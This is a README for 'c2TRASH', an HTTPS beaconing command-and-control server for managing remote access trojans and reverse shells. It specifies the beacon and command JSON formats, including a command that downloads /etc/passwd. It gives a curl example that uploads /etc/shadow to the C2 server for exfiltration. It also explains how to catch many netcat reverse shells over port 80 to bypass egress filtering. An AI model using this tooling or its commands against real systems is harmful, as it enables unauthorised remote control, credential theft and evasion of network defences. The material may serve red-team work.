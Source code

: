 c2TRASH - C2 Tool for Remote Access Shells (Hopefully)
======
**c2TRASH** is a simple HTTPS beaconing C2 server that can manage RATs that follow the c2TRASH protocol
## The Protocol

HTTPS with JSON payloads

### Beacons

Something like (example writen in python)

```
{
        "usr":getpass.getuser(),
        "hostname":socket.gethostname(),
        "cwd": os.getcwd(),
        "time": time.time(),
        "beacon":True
}
```

### Command Payloads

Something like

```
{
    "ls":"-al"
}

```

or 
```
{
    "download":"/etc/passwd"
}
```

## Features

### Static File Server

Files stored in `<install-dir>/static` can be downloaded from https://<ip>:<port>/filename

### Upload Endpoint

File uploads are accepted to aid in exfiltration. This is used by the `download` c2TRASH command, but can be invoked directly:

Example:

```
curl -k -F '/etc/shadow=@/etc/shadow' https://<c2TRASH>/upload.php
```

### Flexible shells

Shell primitives are stored in `<install-dir>/shell` and are custimized when thrown to contain the current LHOST and LPORT values.

These shells can be customized or added to at runtime without stopping the c2TRASH server.

### Shell management

Even if you aren't using \*TRASH clients, you can still use c2TRASH to manage your shells.

The `listen` `catch` commands are helpers that can be called directly to catch raw TCP shells from other tools (or netcat).

c2TRASH uses iptables and tmux shenanigans to multiplex an arbitrary number of these raw shells over the the external port [to bypass egress filtering] on the c2TRASH server.

e.g. You can throw 100 different netcat shells to <c2TRASH>:80 and catch them all in their own new tmux session running a naive netcat listener.

### Mutiple Targets

Multiple targets can be managed by c2TRASH at the same time. Commands not recognized by c2TRASH are sent to the currently selected target to be executed. The result is a meterpreter-like shell that is A) encrypted B) beaconing (with a customizable interval that can be changed with `set beacon`)


### Stability?

Ha, no

